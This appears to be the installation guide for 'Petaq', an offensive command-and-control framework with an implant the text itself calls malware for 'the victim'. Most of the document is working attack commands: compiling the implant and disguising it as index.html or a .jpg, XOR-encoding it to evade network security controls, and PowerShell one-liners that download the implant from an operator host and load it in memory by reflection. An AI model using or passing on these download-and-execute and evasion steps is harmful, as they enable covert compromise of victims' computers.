 # Installation
## Information
Petaq has two components, service for the operator, and implant for the victim
* Petaq Service - The Command & Control Service (.NET Core)
* Petaq Implant - The Malware (.NET Framework)
## Configuration
You can tweak the following files to configure the C2 and malware. 
* PetaqService configuration file is Properties/launchSettings.json
* PetaqImplant configuration file is Configuration.cs
## Run
* PetaqService can run using ```dotnet run```
* PetaqImplant can be compiled with Visual Studio, ```csc``` or ```mcs```. Then copy to a location for the victim to download from that link. It's possible to use PetaqService for it as well. The PetaqImplant can be saved as index.html in PetaqService wwwroot, or an image file under wwwroot/tools.
```
csc /out:malware.exe *.cs
copy malware.exe ../PetaqService/wwwroot/index.html
copy malware.exe ../PetaqService/wwwroot/tools/malware.jpg
```

To evade most network base security controls while tranmission, it's preferred to simply XOR encode the PetaqImplant .NET assembly.  
* Download & Execute the PetaqImplant Directly
```
$m=new-object net.webclient;$m.proxy=[Net.WebRequest]::GetSystemWebProxy();$m.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;$Url='https://YOURIP:YOURPORT/PetaqImplant.exe';$dba=$m.downloaddata($Url);$a=[System.Reflection.Assembly]::Load($dba); $a.EntryPoint.Invoke(0,@(,[string[]]@()))|Out-Null
```

* Download & XOR & SAVE the PetaqImplant as an Image File
```
$m=new-object net.webclient;$m.proxy=[Net.WebRequest]::GetSystemWebProxy();$m.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;$Url='https://YOURIP:YOURPORT/PetaqImplant.exe';$dba=$m.downloaddata($Url); for($i=0; $i -lt $dba.count ; $i++){$dba[$i] = $dba[$i] -bxor 0x2F}; [System.IO.File]::WriteAllBytes("PetaqImplantXORed.jpg",$dba)
```

* Download & XOR & Execute the XOR Encoded PetaqImplant Image File
```
$m=new-object net.webclient;$m.proxy=[Net.WebRequest]::GetSystemWebProxy();$m.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;$Url='https://YOURIP:YOURPORT/PetaqImplantXORed.jpg';$dba=$m.downloaddata($Url);for($i=0; $i -lt $dba.count ; $i++){$dba[$i] = $dba[$i] -bxor 0x2F}; $a=[System.Reflection.Assembly]::Load($dba); $a.EntryPoint.Invoke(0,@(,[string[]]@()))|Out-Null
```


# Initial Execution
## PowerShell
* Run Powershell to load PetaqImplant .NET assembly through PetaqService
```
powershell –c $m=new-object net.webclient;$m.proxy=[Net.WebRequest]::GetSystemWebProxy();$m.Proxy.Credentials=[Net.CredentialCache];$Url='http://YOURIP:YOURPORT/';$dba=$m.downloaddata($Url);$a=[System.Reflection.Assembly]::Load($dba); $a.EntryPoint.Invoke(0,@(,[string[]]@()))
```
* Run Powershell to load PetaqImplant .NET assembly XOR encoded through PetaqService
```
```